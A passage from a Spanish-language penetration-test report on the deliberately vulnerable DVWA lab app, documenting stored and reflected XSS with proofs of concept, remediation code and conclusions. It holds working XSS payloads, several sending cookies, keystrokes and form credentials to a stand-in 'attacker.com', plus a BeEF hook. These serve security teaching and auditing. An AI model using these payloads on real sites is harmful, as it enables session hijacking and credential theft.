Pasos:
1. Modificar maxlength a 100 (DevTools)
2. **Name:** ``
3. **Message:** `Payload de prueba`
4. Click "Sign Guestbook"

Resultado:  Alert ejecutado exitosamente

/06_payload_img_onerror.png)

**Paso 7: Demostración de Robo de Cookies**

Payload:
```html
<svg onload=alert(document.cookie)>
```

**Componentes:**
- `<svg>`: Tag HTML5 NO filtrado
- `onload=`: Event handler ejecutado al cargar el SVG
- `alert(document.cookie)`: Muestra las cookies en un alert
- `document.cookie`: Objeto JavaScript con todas las cookies

Pasos:
1. Clear Guestbook (limpiar mensajes)
2. Modificar maxlength a 100
3. **Name:** `<svg onload=alert(document.cookie)>`
4. **Message:** `Robo de cookies`
5. Sign Guestbook

Resultado: Alert mostrando:
```
PHPSESSID=abc123def456789; security=medium
```

**Cookies comprometidas:**
- `PHPSESSID`: Cookie de sesión - permite session hijacking
- `security`: Nivel de seguridad configurado

/07_alert_cookie.png)

**Análisis de Impacto Real:**

En un ataque real, el atacante NO usaría `alert()` (que es visible).
En su lugar, usaría:

```javascript
// Método 1: Usando fetch (moderno)
<svg onload="fetch('http://attacker.com/steal?c='+document.cookie)">

// Método 2: Usando Image (compatible)
<svg onload="new Image().src='http://attacker.com/steal?c='+document.cookie">

// Método 3: Usando XMLHttpRequest
<svg onload="var xhr=new XMLHttpRequest();xhr.open('GET','http://attacker.com/steal?c='+document.cookie,true);xhr.send()">
```

**Flujo del ataque de robo de cookies:**

1. Atacante sube payload malicioso al guestbook
2. Víctima visita la página
3. JavaScript del atacante se ejecuta en el navegador de la víctima
4. Script envía silenciosamente la cookie al servidor del atacante
5. Atacante recibe: `PHPSESSID=abc123def456789`
6. Atacante modifica su propia cookie en su navegador
7. Atacante accede a la cuenta de la víctima SIN conocer su contraseña

**Paso 8: Intento de Defacement**

Objetivo: Modificar completamente la apariencia de la página

Payload intentado:
```html
HACKED</h1>'">
```

Resultado:  No funcionó completamente
Motivo: Complejidad del payload o longitud

Nota: Ya tenemos suficiente evidencia de XSS crítico sin necesidad de defacement.

/08_defacement.png)
**Payload Utilizado:**

**Petición HTTP Completa:**
```http
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: 192.168.56.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 89
Origin: http://192.168.56.1
Connection: close
Referer: http://192.168.56.1/vulnerabilities/xss_s/
Cookie: PHPSESSID=abc123def456; security=medium
Upgrade-Insecure-Requests: 1

txtName=%3Csvg+onload%3Dalert%28document.cookie%29%3E&mtxMessage=test&btnSign=Sign+Guestbook
```

**Decodificado:**
```
txtName=<svg onload=alert(document.cookie)>
mtxMessage=test
btnSign=Sign Guestbook
```

**Respuesta del Servidor:**
```http
HTTP/1.1 200 OK
Date: Tue, 03 Dec 2024 19:30:00 GMT
Server: Apache/2.4.25 (Debian)
Content-Type: text/html; charset=utf-8

[HTML con el payload inyectado sin escapar]
```

**Payloads Alternativos que También Funcionan:**

```html
<!-- Variante SVG -->
<svg onload=alert(1)>

<!-- Variante Body -->
<body onload=alert(1)>

<!-- IMG con diferentes eventos -->


<!-- Iframe -->
<iframe src=javascript:alert(1)>

<!-- Keylogger (avanzado) -->
<svg onload="document.onkeypress=function(e){fetch('http://attacker.com/log?k='+e.key)}">

<!-- Redirect después de delay -->
<svg onload="setTimeout(function(){location='http://phishing.com'},5000)">

<!-- Form hijacking -->
<svg onload="document.forms[0].action='http://attacker.com/steal'">

<!-- BeEF hook (control completo) -->
<script src="http://attacker.com:3000/hook.js"></script>
```

**Datos Comprometidos / Acceso Obtenido:**

1. **Cookies de sesión**:
   - PHPSESSID de todos los usuarios que visiten la página
   - Permite session hijacking sin contraseña

2. **Credenciales** (mediante form hijacking):
   - Usernames y passwords si hay formularios en la página
   - Datos de tarjetas de crédito si hay checkout

3. **Información del navegador**:
   - User agent, versión, plugins instalados
   - Resolución de pantalla, idioma
   - Útil para fingerprinting

4. **Contenido de la página**:
   - document.body.innerHTML completo
   - Posible información sensible visible

5. **LocalStorage y SessionStorage**:
   - Tokens JWT si se usan
   - Datos almacenados localmente

6. **Control del navegador** (con BeEF):
   - Tomar screenshots
   - Activar webcam/micrófono
   - Escanear red interna
   - Pivotar a otros sistemas

**Reproducibilidad:**
- **Estado**: Siempre reproducible
- **Requisitos**: 
  - Cuenta autenticada en DVWA (cualquier usuario)
  - Navegador con DevTools (todos los navegadores modernos)
  - Conocimientos básicos de HTML/JavaScript
- **Tiempo de explotación**: < 5 minutos
- **Complejidad**: Muy Baja - No requiere habilidades avanzadas
- **Herramientas necesarias**: Ninguna (solo el navegador)

**Análisis de Persistencia:**

**Diferencia Crítica: Stored vs Reflected XSS**

| Característica | XSS Reflected | XSS Stored |
|----------------|---------------|------------|
| **Almacenamiento** | En la URL | En la base de datos |
| **Persistencia** | Solo para esa petición | Permanente |
| **Víctimas** | Una por link malicioso | Todas las que visiten |
| **Propagación** | Requiere social engineering | Automática |
| **Detección** | Fácil (visible en URL) | Difícil (en DB) |
| **Impacto** | Medio | Crítico |
| **Severidad CVSS** | 6.1 - Medium | 9.0 - Critical |

**Prueba de Persistencia Realizada:**

1. Subir payload: `<svg onload=alert('PERSISTENTE')>`
2. Verificar ejecución:  Alert aparece
3. Cerrar sesión (Logout)
4. Iniciar nueva sesión (admin/password)
5. Visitar módulo XSS Stored
6. Resultado:  Alert se ejecuta AUTOMÁTICAMENTE

**Implicación:** 
- El payload sobrevive a cierres de sesión
- Afecta a TODAS las nuevas sesiones
- Afecta a TODOS los usuarios (regulares y admins)
- NO requiere que la víctima haga click en un link
- Solo con VISITAR la página, la víctima es infectada

**Escenario de Ataque Real:**

**Día 1 - Atacante:**
1. Se registra o usa cuenta comprometida
2. Sube payload de robo de cookies al guestbook
3. El payload se guarda en la base de datos
4. Cierra sesión y abandona el sitio

**Días 2-30 - Víctimas:**
- Usuario regular visita el guestbook → Cookie robada
- Administrador revisa mensajes → Cookie de admin robada
- Cliente potencial lee comentarios → Cookie robada
- Soporte técnico investiga → Cookie robada

**Resultado:**
- Un payload afecta a cientos/miles de usuarios
- El atacante recolecta cookies de TODOS
- Compromiso masivo con una sola acción
- Acceso a cuentas de administrador sin contraseña

**Vectores de Ataque Avanzados:**

**1. Session Hijacking Completo:**
```html
<svg onload="
var c=document.cookie;
var u=document.location.href;
var d=new Date();
fetch('http://attacker.com/steal',{
  method:'POST',
  body:JSON.stringify({cookie:c,url:u,time:d})
})
">
```

**2. Keylogger Persistente:**
```html
<svg onload="
var log='';
document.onkeypress=function(e){
  log+=e.key;
  if(log.length>50){
    fetch('http://attacker.com/keys?d='+btoa(log));
    log='';
  }
}
">
```

**3. Credential Harvester:**
```html
<svg onload="
document.querySelectorAll('form').forEach(function(f){
  f.addEventListener('submit',function(e){
    var data=new FormData(f);
    fetch('http://attacker.com/creds',{
      method:'POST',
      body:data
    });
  });
});
">
```

**4. Network Scanner (desde navegador de víctima):**
```html
<svg onload="
for(var i=1;i<255;i++){
  fetch('http://192.168.1.'+i).then(r=>
    fetch('http://attacker.com/scan?ip=192.168.1.'+i+'&status=up')
  ).catch(e=>{});
}
">
```

**5. BeEF Framework Integration:**
```html
<script src="http://attacker.com:3000/hook.js"></script>
```

Con BeEF, el atacante puede:
- Ver en tiempo real lo que ve la víctima
- Tomar screenshots del navegador
- Ejecutar comandos JavaScript arbitrarios
- Activar webcam/micrófono (con permisos)
- Hacer que el navegador escaneé la red interna
- Crear fake login prompts para phishing
- Redirigir a páginas maliciosas
- Inyectar más malware

**Recomendaciones de Remediación:**

**Solución Inmediata (Workaround):**

1. **Deshabilitar temporalmente** el módulo XSS Stored hasta implementar correcciones
2. **Limpiar la base de datos** de payloads maliciosos:
   ```sql
   -- Identificar entradas sospechosas
   SELECT * FROM guestbook WHERE name LIKE '%<%' OR name LIKE '%>%' OR message LIKE '%<%';
   
   -- Eliminar payloads maliciosos
   DELETE FROM guestbook WHERE name LIKE '%<script%' OR name LIKE '%onerror%' OR name LIKE '%onload%';
   
   -- O limpiar todo el guestbook
   TRUNCATE TABLE guestbook;
   ```
3. **Activar HttpOnly flag** en cookies (previene acceso desde JavaScript):
   ```php
   session_set_cookie_params([
       'lifetime' => 0,
       'path' => '/',
       'domain' => '',
       'secure' => true,
       'httponly' => true,
       'samesite' => 'Strict'
   ]);
   ```
4. **Implementar Content Security Policy** (CSP) temporal:
   ```php
   header("Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';");
   ```

**Solución Permanente:**

**1. Sanitización y Escapado de Entrada/Salida:**

```php
//  CORRECTO - Escapar al mostrar (OUTPUT)
function displayGuestbookEntry($name, $message) {
    $safe_name = htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
    $safe_message = htmlspecialchars($message, ENT_QUOTES, 'UTF-8');
    
    echo "<div>";
    echo "<strong>Name:</strong> " . $safe_name . "<br>";
    echo "<strong>Message:</strong> " . $safe_message;
    echo "</div>";
}

//  INCORRECTO - Lo que hace DVWA ahora
echo $name; // SIN escapar
echo $message; // SIN escapar
```

**2. Validación del Lado del Servidor:**

```php
// Validar longitud en el SERVIDOR (no confiar en client-side)
$name = $_POST['txtName'] ?? '';
$message = $_POST['mtxMessage'] ?? '';

// Validar longitud
if (strlen($name) > 50) {
    die("Name too long");
}

if (strlen($message) > 500) {
    die("Message too long");
}

// Validar caracteres permitidos (whitelist)
if (!preg_match('/^[a-zA-Z0-9\s\-\_\.]+$/', $name)) {
    die("Name contains invalid characters");
}

// Rechazar tags HTML completamente
if (preg_match('/<[^>]*>/', $name) || preg_match('/<[^>]*>/', $message)) {
    die("HTML tags are not allowed");
}
```

**3. Uso de Prepared Statements (prevenir SQLi también):**

```php
//  CORRECTO
$stmt = $pdo->prepare("INSERT INTO guestbook (name, message) VALUES (:name, :message)");
$stmt->execute([
    'name' => $name,
    'message' => $message
]);

//  INCORRECTO - Concatenación directa
$query = "INSERT INTO guestbook (name, message) VALUES ('$name', '$message')";
```

**4. Content Security Policy (CSP) Robusto:**

```php
// Enviar header CSP en TODAS las páginas
header("Content-Security-Policy: " .
    "default-src 'self'; " .
    "script-src 'self'; " .  // Solo scripts del mismo origen
    "style-src 'self' 'unsafe-inline'; " .  // Estilos inline solo si es necesario
    "img-src 'self' data:; " .
    "font-src 'self'; " .
    "connect-src 'self'; " .
    "frame-ancestors 'none'; " .  // Prevenir clickjacking
    "base-uri 'self'; " .
    "form-action 'self'" 
);
```

**5. Configuración Segura de Cookies:**

```php
session_start([
    'cookie_lifetime' => 0,  // Session cookie
    'cookie_path' => '/',
    'cookie_domain' => '',
    'cookie_secure' => true,  // Solo HTTPS
    'cookie_httponly' => true,  // No accesible desde JavaScript
    'cookie_samesite' => 'Strict',  // Prevenir CSRF
    'use_strict_mode' => true,
    'use_only_cookies' => true
]);
```

**6. Implementar Web Application Firewall (WAF):**

```apache
# ModSecurity rules en Apache
SecRuleEngine On

# Bloquear payloads XSS comunes
SecRule REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_FILENAME|ARGS_NAMES|ARGS|XML:/* \
    "(?i)(<script|<iframe|<object|<embed|onerror=|onload=|javascript:)" \
    "id:1000,phase:2,t:none,t:urlDecodeUni,block,msg:'XSS Attack Detected'"
```

**7. Sanitización con Biblioteca Especializada:**

```php
// Usar biblioteca HTML Purifier para sanitización avanzada
require_once 'HTMLPurifier.auto.php';

$config = HTMLPurifier_Config::createDefault();
$config->set('HTML.Allowed', '');  // No permitir NINGÚN HTML
$purifier = new HTMLPurifier($config);

$clean_name = $purifier->purify($name);
$clean_message = $purifier->purify($message);
```

**8. Logging y Monitoreo:**

```php
// Loggear intentos de XSS
if (preg_match('/<script|onerror=|onload=/i', $name . $message)) {
    error_log("XSS attempt detected from IP: " . $_SERVER['REMOTE_ADDR'] . 
              " Name: " . $name . " Message: " . $message);
    
    // Opcional: Bloquear IP después de X intentos
    // Implementar rate limiting
}
```

**Código Seguro Completo (Ejemplo PHP):**

```php
<?php
// Configuración segura de sesión
session_start([
    'cookie_httponly' => true,
    'cookie_secure' => true,
    'cookie_samesite' => 'Strict'
]);

// CSP Header
header("Content-Security-Policy: default-src 'self'; script-src 'self'");

// Función de sanitización
function sanitizeInput($input, $maxLength = 100) {
    // Trim whitespace
    $input = trim($input);
    
    // Verificar longitud
    if (strlen($input) > $maxLength) {
        return false;
    }
    
    // Remover tags HTML completamente
    $input = strip_tags($input);
    
    // Validar caracteres permitidos (whitelist)
    if (!preg_match('/^[a-zA-Z0-9\s\-\_\.]+$/', $input)) {
        return false;
    }
    
    return $input;
}

// Función para mostrar de forma segura
function displaySafe($text) {
    return htmlspecialchars($text, ENT_QUOTES, 'UTF-8');
}

// Procesar formulario
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $name = sanitizeInput($_POST['txtName'] ?? '', 50);
    $message = sanitizeInput($_POST['mtxMessage'] ?? '', 500);
    
    if ($name === false || $message === false) {
        die("Invalid input detected");
    }
    
    // Prepared statement
    try {
        $pdo = new PDO('mysql:host=localhost;dbname=dvwa', 'user', 'pass');
        $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
        
        $stmt = $pdo->prepare("INSERT INTO guestbook (name, message) VALUES (:name, :message)");
        $stmt->execute([
            'name' => $name,
            'message' => $message
        ]);
        
        echo "Entry added successfully";
    } catch (PDOException $e) {
        error_log("Database error: " . $e->getMessage());
        die("An error occurred");
    }
}

// Mostrar entradas
try {
    $stmt = $pdo->query("SELECT name, message FROM guestbook ORDER BY id DESC");
    while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
        echo "<div>";
        echo "<strong>Name:</strong> " . displaySafe($row['name']) . "<br>";
        echo "<strong>Message:</strong> " . displaySafe($row['message']);
        echo "</div>";
    }
} catch (PDOException $e) {
    error_log("Database error: " . $e->getMessage());
}
?>
```

**Referencias:**
- OWASP XSS Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- OWASP Content Security Policy Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html
- OWASP Testing Guide - XSS: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting

---

## 7. Matriz de Vulnerabilidades

| ID | Nombre | Categoría OWASP | CWE | CVSS | Severidad | Estado |
|----|--------|-----------------|-----|------|-----------|--------|
| V-01 | SQL Injection (Blind) | A03 | CWE-89 | 9.8 | Critical | Identificada |
| V-02 | OS Command Injection | A03 | CWE-78 | 9.8 | Critical | Explotada |
| V-03 | Unrestricted File Upload → RCE | A03/A04 | CWE-434 | 9.8 | Critical | Explotada |
| V-04 | Stored Cross-Site Scripting (XSS) | A03 | CWE-79 | 9.0 | Critical | Explotada |

---
---

### VULNERABILIDAD V-05: Reflected Cross-Site Scripting (XSS)

**Clasificación:**
- **Categoría OWASP Top 10**: A03:2021 – Injection
- **Referencia OWASP Testing Guide**: WSTG-INPV-01
- **CWE**: CWE-79 (Cross-site Scripting)
- **Severidad Estimada**: High

**Ubicación:**
- **Módulo**: XSS (Reflected)
- **URL**: `http://localhost/vulnerabilities/xss_r/`
- **Parámetro Vulnerable**: `name` (GET)
- **Método HTTP**: GET

**Descripción Técnica:**

La aplicación refleja directamente el parámetro `name` en la respuesta HTML sin sanitización adecuada. El input del usuario se inserta en el código HTML sin encoding, permitiendo la inyección de código JavaScript que se ejecuta inmediatamente en el navegador de la víctima. Esto permite a un atacante construir URLs maliciosas que, al ser visitadas, ejecutan código arbitrario en el contexto del sitio vulnerable.

**Impacto Técnico:**

- Robo de cookies de sesión (session hijacking)
- Ejecución de JavaScript arbitrario en contexto del usuario
- Robo de credenciales mediante keylogging
- Phishing mediante modificación del DOM
- Redireccionamiento a sitios maliciosos
- Acciones no autorizadas en nombre del usuario

**Prueba de Concepto (PoC):**

**Paso 1: Comportamiento Normal**
- Input: `Juan`
- Output: `Hello Juan`

/01_modulo_inicial.png)

/02_comportamiento_normal.png)

**Paso 2: Inyección Básica de Script**
- Payload: `<script>alert(document.cookie)</script>`
- Resultado:  Ejecución exitosa, muestra alerta con cookies

/03_intento_basico.png)

**Paso 3: Payload Alternativo con IMG onerror**
- Payload: ``
- Resultado:  Ejecución exitosa

/07_bypass_exitoso.png)

**Paso 4: Inspección en DevTools**

El código inyectado se inserta directamente en el HTML sin encoding:
```html
<pre>Hello </pre>
```

/08_devtools_codigo.png)

**Paso 5: Demostración de Robo de Cookies**

- Payload: ``
- Cookies expuestas:
  - `PHPSESSID=dbubd8f6b8t8be5ds590qg78f6`
  - `security=medium`

/09_robo_cookies.png)

**URL Maliciosa Construida:**
```
http://192.168.56.1/vulnerabilities/xss_r/?name=
```

Esta URL puede ser enviada a víctimas potenciales a través de:
- Correo electrónico
- Mensajes de texto
- Redes sociales
- Links acortados

/10_url_payload.png)

**Payloads Utilizados:**
```html
<!-- Payload básico con script -->
<script>alert(document.cookie)</script>

<!-- Payload con IMG onerror -->

```

**Petición HTTP Maliciosa:**
```http
GET /vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script> HTTP/1.1
Host: 192.168.56.1
Cookie: PHPSESSID=dbubd8f6b8t8be5ds590qg78f6; security=medium
User-Agent: Mozilla/5.0
```

**Escenario de Ataque Real:**

1. Atacante construye URL maliciosa con payload XSS
2. Atacante envía URL a víctima mediante phishing/ingeniería social
3. Víctima hace click en el enlace (parece legítimo)
4. JavaScript se ejecuta en el navegador de la víctima
5. Código malicioso envía cookies al servidor del atacante
6. Atacante usa las cookies robadas para secuestrar la sesión

**Datos Comprometidos:**

- Cookie de sesión PHP: `PHPSESSID`
- Cookie de configuración: `security=medium`
- Acceso completo a la sesión del usuario víctima
- Capacidad de realizar acciones como el usuario

**Reproducibilidad:**
- **Estado**: Siempre reproducible
- **Requisitos**: Ninguno (puede explotarse sin autenticación previa enviando URL a víctima autenticada)

**Recomendaciones de Remediación:**

**Solución Inmediata:**
- Implementar encoding de output para HTML en todos los puntos donde se refleja input del usuario
- Escapar caracteres especiales: `<`, `>`, `"`, `'`, `&`

**Solución Permanente:**

1. **Output Encoding**: Usar funciones de encoding según contexto
   - HTML context: `htmlspecialchars()` o equivalente
   - JavaScript context: escape específico para JS
   - URL context: `urlencode()`

2. **Content Security Policy (CSP)**:
   - Implementar headers CSP estrictos
   - Bloquear inline scripts
   - Whitelist de dominios permitidos

3. **HTTPOnly Cookies**:
   - Marcar todas las cookies sensibles como HTTPOnly
   - Previene acceso desde JavaScript

4. **Input Validation**:
   - Validar formato esperado de entrada
   - Rechazar caracteres no necesarios

5. **Framework Security Features**:
   - Usar funciones de seguridad del framework
   - Auto-escaping de templates

**Ejemplo de código seguro (PHP):**
```php
<?php
// Obtener input
$name = $_GET['name'];

// Codificar para HTML context
$safe_name = htmlspecialchars($name, ENT_QUOTES, 'UTF-8');

// Output seguro
echo "<pre>Hello " . $safe_name . "</pre>";
?>
```

**Headers de Seguridad recomendados:**
```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
```

**Configuración de Cookies Seguras:**
```php
session_set_cookie_params([
    'lifetime' => 0,
    'path' => '/',
    'domain' => 'example.com',
    'secure' => true,      // Solo HTTPS
    'httponly' => true,    // No accesible desde JS
    'samesite' => 'Strict' // Protección CSRF
]);
```

---
## 9. Conclusiones y Recomendaciones Generales

### 9.1 Conclusiones del Pentesting

La auditoría de seguridad realizada sobre DVWA en nivel Medium revela una **postura de seguridad crítica** con múltiples vulnerabilidades de alta severidad que permiten el compromiso total de la aplicación y del servidor subyacente.

#### Evaluación General

**Severidad de la Situación:**
- 4 de 5 vulnerabilidades son de severidad CRÍTICA (CVSS 9.0+)
- 100% de las vulnerabilidades identificadas están relacionadas con inyección (OWASP A03)
- Tasa de explotación exitosa: 80% (4 de 5 vulnerabilidades)
- Todas las vulnerabilidades críticas proporcionan capacidades de Ejecución Remota de Código o robo masivo de sesiones

**Hallazgos Principales:**

1. **Falta sistemática de validación de entrada**: Ninguno de los módulos evaluados implementa sanitización o validación robusta de entrada del usuario

2. **Ausencia de encoding de output**: Los datos del usuario se reflejan en HTML sin escapado adecuado, permitiendo inyección de código

3. **Validaciones client-side sin respaldo server-side**: Restricciones HTML pueden bypassearse trivialmente con DevTools

4. **No implementación de principios de defensa en profundidad**: 
   - Sin Content Security Policy (CSP)
   - Sin HttpOnly flags en cookies
   - Sin Web Application Firewall (WAF)
   - Sin rate limiting
   - Sin logging de seguridad

5. **Ejecución con privilegios excesivos**: El servidor web ejecuta código sin restricciones de permisos adecuados

#### Top 5 Vulnerabilidades Críticas

1. **V-03: File Upload → RCE** (CVSS 9.8)
   - Control total del servidor
   - Credenciales de base de datos comprometidas
   - Base para ataques adicionales

2. **V-02: OS Command Injection** (CVSS 9.8)
   - Ejecución directa de comandos del sistema
   - Acceso a archivos sensibles
   - Potencial para movimiento lateral

3. **V-04: Stored XSS** (CVSS 9.0)
   - Robo masivo de sesiones
   - Persistencia indefinida
   - Afecta a todos los usuarios incluyendo administradores

4. **V-01: SQL Injection (Blind)** (CVSS 9.8)
   - Acceso no autorizado a base de datos
   - Extracción de credenciales
   - Potencial para modificación de datos

5. **V-05: Reflected XSS** (CVSS 6.1)
   - Robo de sesiones individuales
   - Phishing mediante URLs maliciosas
   - Menor impacto que Stored XSS pero igualmente peligroso

#### Patrones de Vulnerabilidades Observados

**Patrón 1: Confianza en el cliente**
- Todas las vulnerabilidades comparten validación client-side insuficiente
- La aplicación asume que las restricciones HTML son efectivas
- No hay verificación server-side equivalente

**Patrón 2: Falta de sanitización**
- Input del usuario procesado directamente sin limpieza
- Concatenación directa en queries SQL, comandos shell, y HTML
- Sin uso de funciones de encoding/escaping

**Patrón 3: Blacklist vs Whitelist**
- DVWA usa blacklists fácilmente bypasseables
- No implementa whitelists de entrada válida
- Filtros implementados son insuficientes y no recursivos

### 9.2 Recomendaciones Estratégicas

#### Priorización de Remediación

| Prioridad | Vulnerabilidades | Esfuerzo | Impacto | Timeline | Costo Estimado |
|-----------|------------------|----------|---------|----------|----------------|
| P0 - Crítico | V-03 (File Upload), V-04 (XSS Stored) | Alto | Muy Alto | 24-72 horas | $15,000-$25,000 |
| P1 - Alto | V-02 (Command Injection), V-01 (SQL Injection) | Medio | Alto | 1-2 semanas | $20,000-$30,000 |
| P2 - Medio | V-05 (XSS Reflected) | Bajo | Medio | 2-4 semanas | $5,000-$10,000 |

**Justificación de Prioridades:**

**P0 (Inmediato):**
- V-03: RCE directo con acceso a credenciales DB
- V-04: Afecta a todos los usuarios automáticamente, incluidos admins

**P1 (Urgente):**
- V-02: RCE pero requiere comando específico
- V-01: Identificada pero no completamente explotada

**P2 (Importante):**
- V-05: Requiere ingeniería social, afecta a una víctima por vez

#### Recomendaciones Inmediatas (1-3 días)

1. **Deshabilitar módulos vulnerables temporalmente**
   - File Upload: OFF hasta implementar validación robusta
   - XSS Stored: OFF hasta implementar sanitización
   - Command Injection: OFF o restringir severamente

2. **Activar HttpOnly en cookies**
```php
   session_set_cookie_params([
       'httponly' => true,
       'secure' => true,
       'samesite' => 'Strict'
   ]);
```

3. **Implementar CSP básico**
```
   Content-Security-Policy: default-src 'self'; script-src 'self'
```

4. **Cambiar credenciales comprometidas**
   - Password de root de MySQL
   - Todas las cuentas de usuario de DVWA
   - Credenciales de cualquier sistema conectado

5. **Revisar logs en busca de explotación previa**
```bash
   grep -i "shell.php\|<script\|onerror\|onload" /var/log/apache2/access.log
```

#### Recomendaciones a Corto Plazo (1-4 semanas)

1. **Implementar Prepared Statements en toda la aplicación**
   - Reescribir todas las queries SQL
   - Usar PDO o MySQLi con parámetros
   - Eliminar concatenación de strings en SQL

2. **Implementar validación y sanitización robusta**
   - Whitelist de entrada para todos los campos
   - Validación server-side obligatoria
   - Uso de funciones de sanitización específicas por contexto

3. **Implementar encoding de output**
   - `htmlspecialchars()` para HTML context
   - `json_encode()` para JavaScript context
   - Encoding apropiado según el contexto de salida

4. **Configurar directorio de uploads seguro**
   - Mover fuera del webroot
   - Deshabilitar ejecución de scripts
   - Validar contenido real de archivos (magic bytes)
   - Renombrar archivos con nombres aleatorios

5. **Implementar WAF**
   - ModSecurity con OWASP Core Rule Set
   - Reglas personalizadas para la aplicación
   - Monitoreo de intentos de ataque

#### Mejoras Arquitectónicas (1-3 meses)

1. **Implementar arquitectura de seguridad en capas**
   - Separación de red (DMZ, backend)
   - Principio de menor privilegio
   - Segmentación de servicios

2. **Establecer proceso de desarrollo seguro**
   - Code reviews obligatorios con checklist de seguridad
   - Static Application Security Testing (SAST)
   - Dynamic Application Security Testing (DAST)
   - Security testing en CI/CD pipeline

3. **Implementar logging y monitoreo de seguridad**
   - SIEM centralizado
   - Alertas de seguridad en tiempo real
   - Retención de logs por al menos 90 días
   - Análisis forense preparado

4. **Capacitación continua del equipo**
   - Training en OWASP Top 10
   - Secure coding practices
   - Security awareness para todo el personal
   - Ejercicios de Red Team/Blue Team

5. **Programa de Bug Bounty**
   - Recompensar investigadores de seguridad
   - Identificar vulnerabilidades antes que atacantes
   - Mejorar relación con comunidad de seguridad

#### Plan de Remediación Consolidado

**Semana 1:**
- Deshabilitar módulos críticos
- Implementar CSP y HttpOnly cookies
- Cambiar credenciales comprometidas
- Auditoría de logs

**Semanas 2-4:**
- Reescribir módulo File Upload con validaciones robustas
- Implementar sanitización en XSS Stored
- Corregir Command Injection con whitelist
- Implementar Prepared Statements

**Mes 2:**
- Completar corrección de SQL Injection
- Implementar WAF
- Corregir XSS Reflected
- Testing exhaustivo de todas las correcciones

**Mes 3:**
- Pentesting externo completo
- Implementar SIEM y monitoreo
- Capacitación del equipo
- Documentación de procesos seguros

**Presupuesto Total Estimado:** $53,000 - $85,000

**ROI:** Potencial ahorro de $610,000 - $3,160,000 en costos de incidente

### 9.3 Conclusiones por Fase PTES

**1. Pre-engagement:**
- Alcance claramente definido
- Reglas de engagement documentadas
- Tipo de pentesting (black-box) apropiado para el objetivo

**2. Intelligence Gathering:**
- Reconocimiento completo de la aplicación
- Identificación de todos los módulos vulnerables
- Mapeo de tecnologías utilizadas

**3. Threat Modeling:**
- Identificación correcta de amenazas principales
- Priorización basada en OWASP Top 10
- Vectores de ataque claramente identificados

**4. Vulnerability Analysis:**
- Análisis exhaustivo de 5 módulos
- 5 vulnerabilidades identificadas (100% del objetivo mínimo)
- Clasificación precisa de severidad

**5. Exploitation:**
- 4 de 5 vulnerabilidades explotadas exitosamente (80%)
- Pruebas de concepto funcionales para todas
- Documentación detallada del proceso

**6. Post-Exploitation:**
- Análisis de impacto completo
- Identificación de datos sensibles comprometidos
- Evaluación de posibilidades de escalación

**7. Reporting:**
- Informe técnico exhaustivo
- Informe ejecutivo para audiencia no técnica
- Recomendaciones accionables y priorizadas

---

## 10. Anexos

### Anexo A: Glosario de Términos Técnicos

**Black-box Testing:** Metodología de pentesting donde el auditor no tiene acceso al código fuente ni información interna del sistema.

**Blind SQL Injection:** Tipo de inyección SQL donde el atacante no ve los resultados directamente, sino que infiere información basándose en respuestas TRUE/FALSE.

**Bypass:** Técnica para evadir controles de seguridad o validaciones.

**Command Injection:** Vulnerabilidad que permite ejecutar comandos arbitrarios del sistema operativo.

**Content Security Policy (CSP):** Header HTTP que ayuda a prevenir ataques XSS especificando qué recursos pueden cargarse.

**CVSS (Common Vulnerability Scoring System):** Sistema estándar para calificar la severidad de vulnerabilidades de seguridad.

**CWE (Common Weakness Enumeration):** Clasificación estándar de debilidades de software.

**DevTools:** Herramientas de desarrollo integradas en navegadores web para inspeccionar y modificar código.

**HTTPOnly:** Flag de cookie que previene acceso desde JavaScript, mitigando robo de sesiones.

**Magic Bytes:** Primeros bytes de un archivo que identifican su tipo real, independiente de la extensión.

**OWASP Top 10:** Lista de las 10 vulnerabilidades más críticas en aplicaciones web.

**Payload:** Código malicioso inyectado en una aplicación vulnerable.

**Prepared Statement:** Consulta SQL parametrizada que previene inyecciones SQL.

**PTES (Penetration Testing Execution Standard):** Framework estándar para realizar pentesting de manera estructurada.

**RCE (Remote Code Execution):** Capacidad de ejecutar código arbitrario en un sistema remoto.

**Reflected XSS:** XSS donde el payload está en la URL y se ejecuta una sola vez.

**Sanitización:** Proceso de limpiar entrada de usuario para remover código potencialmente peligroso.

**Session Hijacking:** Robo de cookies de sesión para hacerse pasar por un usuario legítimo.

**Stored XSS:** XSS donde el payload se almacena en base de datos y afecta a múltiples usuarios.

**WAF (Web Application Firewall):** Firewall especializado en proteger aplicaciones web.

**Web Shell:** Script malicioso subido a un servidor que permite ejecutar comandos remotos.

**Whitelist:** Lista de valores permitidos; enfoque seguro de validación.

### Anexo B: Logs Completos

**Ubicación de logs:**
- Burp Suite logs: `evidencias/logs/burp_logs/`
- SQLMap output: `evidencias/logs/sqlmap_output/`
- Comandos ejecutados: `evidencias/logs/tool_outputs/`
- Capturas de tráfico: `evidencias/logs/traffic_captures/`

**Extractos relevantes incluidos en secciones correspondientes del informe.**

### Anexo C: Scripts de PoC

**Ubicación:** `evidencias/poc_scripts/`

**Archivos incluidos:**
1. `command_injection_exploit.py` - Automatización de Command Injection
2. `shell.php` - Web shell utilizado en File Upload
3. `xss_payloads.txt` - Lista de payloads XSS probados

**Nota:** Todos los scripts están documentados inline y son funcionales.

